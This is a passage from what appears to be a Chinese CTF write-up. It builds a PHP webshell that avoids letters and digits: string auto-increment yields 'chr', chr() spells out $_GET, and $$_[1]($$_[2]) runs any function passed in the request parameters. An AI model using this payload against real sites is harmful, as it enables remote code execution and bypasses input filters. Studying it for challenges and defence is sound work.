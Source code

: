 然后用其中的字母进行自增构造执行语句

![](./images/image-73.png)

这样是能构造出GET的，但是长度会超过限制，得想想其它的办法

可以使用chr()函数，因为没有对数字进行过滤，可以直接通过数字获得字母

获得chr函数后就很容易得到GET，如图下

```
<?php
$_=[]._;
$__=$_[1];
$_=$_[0];
$_++;
$_1=++$_;
$_++;
$_++;
$_++;
$_++;
$_=$_1.++$_.$__;//chr
$_=_.$_(71).$_(69).$_(84);//GET
$$_[1]($$_[2]);
```
